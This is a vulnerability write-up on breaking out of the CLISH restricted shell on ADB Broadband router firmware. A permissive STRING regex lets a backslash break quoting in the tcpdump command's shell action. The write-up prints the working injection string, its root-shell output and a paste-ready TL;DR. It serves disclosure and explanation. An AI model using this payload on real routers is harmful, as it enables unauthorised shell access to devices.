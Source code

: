 # Escaping from CLISH

For impatient readers: There is a TL;DR at the end.

## Short intro in CLISH

```
********************************************
*            ADB BROADBAND                 *
*                                          *
*      WARNING: Authorised Access Only     *
********************************************

Welcome  
ADB#
```

[CLISH][1] is a restricted shell which supports only a set of predefined
commands. Is seems to be developed by a single person, Graeme McKerrell,
 and was last updated 2013-04-26.

### Views
These are used to  define "views" which contain a set of commands. If you type
in `config terminal` for example the shell can open another view with
configuration command and with `exit` you can go back to the view.

### Commands
A command has basically a name, zero or more parameter and an action.
The name is constant and there is no such thing like subcommands. So it's very
simple and a name may be for example `ping` or `config terminal`.
The interesting parts are the parameters and the action. The action are
some shell commands(!) in which the parameters can be used as environment
variables. To disallow [command injection][2] you can restrict the parameter
by using a type.

### Types
A type can be defined with a *regex*,  as *selection* of values or as a
*integer*. By executing a command and while typing each parameter is matched
against its type.

As an additional countermeasure against code injection the characters
\`|$<>&()# are escaped by *adding a backslash in front* of them.

## Problem

So what exactly is the problem? Everything seems fine?
All parameter defined with types using integers and selections seem perfectly
fine if you don't screw up completely.

But what about regular expressions? In the official documentation
"as a reference" there is this type definition:

```xml
<PTYPE name="STRING"
    pattern="[^\-]+"
      help="String"/>
```

This looks pretty OK. We can't use backslashes or use the parameter
as a flag argument because "-" is forbidden. Lets look at the firmware.
Did they implement STRING is differently? YES:

```xml
<PTYPE name="STRING"  
    pattern="[^`]*"
        help="String"/>
```
So.. uhm.. They don't want the backquote (\`) in the string. This
is fine but what about the backslash and minus? Lets try it. Used here
with ping. Other implementations may have ping restricted to
IP-addresses. The ping definition looks something like this:  

### Screwing with Ping

```xml
<COMMAND name="ping"  
         help="send ICMP ECHO_REQUEST to network hosts">

  <PARAM name="destination"
     help="Destination host or IP address"
     ptype="STRING"/>

  <ACTION>exec ping "${destination}"</ACTION>
</COMMAND>
```

```sh
ADB# ping `/bin/sh`  
          ^
destination  String
```

Yes thats what probably what they expected.

```sh
ADB# ping \  
sh: syntax error: unterminated quoted string  
```

Uh oh.. This was translated to `ping "\"`.

```sh
ADB# ping \$SHELL  
ping: bad address '\/bin/clish'
```

The "$" was escaped but an additional backslash escaped the backslash: ```ping "\\$USER"```
While this is funny we can't actually execute something with it. So we have to dig a bit deeper and I found this command:

### Accessing the Shell

```xml
<COMMAND name="tcpdump enable file filter" help="tcpdump enable output file filter">  
    <PARAM name="ifname" help="interface name" ptype="IFNAMES"/>
    <PARAM name="filename" help="log file name" ptype="STRING"/>
    <PARAM name="filter" help="pcap filter" ptype="PCAPFILTER"/>
        <ACTION>
            . /etc/clish/tcpdump.sh "file" "filter" "${ifname}" "${filename}" "${filter}"
        </ACTION>
</COMMAND>  
```

```
ADB# tcpdump enable file filter br0 \ "; sh -c sh \"

ERROR:   Output File has to be stored in a connected mounted USB memory device (ex. /mnt/sda1/ )

HELP:    ...


BusyBox v1.17.3 (2015-09-23 17:35:23 CEST) built-in shell (ash)  
Enter 'help' for a list of built-in commands.

/root $ echo $USER
admin
```

**Hello shell!**

### Some extra candy

While writing this post I took a second look into the type definitions. There was a very interesting one.

```xml
<PTYPE name="WIFI_PASSPHRASE"
       pattern=".........*"
       help="More than 8 char string"/>
```
If you try to write code injection with this one make sure your code has at least 8 characters! ;)

## Mitigation

**RTFM!**
Sanitizing insecure strings by using the type definition from the reference should be enough.

## TL;DR
Paste the following code in the restricted shell to access the real shell:
`tcpdump enable file filter br0 \ "; /bin/sh -c /bin/sh \"`

[1][http://clish.sourceforge.net/]
[2][https://www.owasp.org/index.php/Command_Injection]

